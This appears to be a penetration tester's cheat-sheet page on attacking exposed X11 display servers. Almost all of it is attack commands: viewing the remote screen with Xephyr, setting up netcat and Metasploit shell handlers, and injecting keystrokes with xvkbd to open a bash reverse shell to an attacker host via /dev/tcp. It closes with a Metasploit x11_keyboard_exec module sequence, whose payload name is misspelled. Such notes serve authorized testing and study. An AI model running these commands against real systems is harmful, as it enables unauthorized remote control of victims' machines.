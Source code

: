 # X11

## 01 - Manual

### 1.1 - Remote Screen

```
$ Xephyr -from <attacker_IP> -query <target_IP> -screen 800x600 :1
```

### 1.2 - Implant Callback

Launch a shell handler.

```
$ nc -lnvp <attacker_PORT>

$ sudo msfconsole -qx "use exploit/multi/handler; set payload cmd/unix/reverse_bash; set lhost <attacker_IP>; set lport <attacker_PORT>; run"
```

Execute the command with one-liner shell.

```
$ xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display <target_IP>:1 -text "/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> <&1 2>&1\r"
```

## 02 - Metasploit

```
msf > use exploit/unix/x11/x11_keyboard_exec

msf exploit(unix/x11/x11_keyboard_exec) > set payload linux/x64/metepreter/reverse_tcp

msf exploit(unix/x11/x11_keyboard_exec) > options

msf exploit(unix/x11/x11_keyboard_exec) > set rhost <target_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lhost <attacker_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lport <attacker_PORT>

msf exploit(unix/x11/x11_keyboard_exec) > set time_wait 10

msf exploit(unix/x11/x11_keyboard_exec) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Ports/Remote Services/X11|Vulnerability Assessment: Remote Services - X11]]

- [Bordergate: Pentesting X11](https://www.bordergate.co.uk/pentesting-x11/)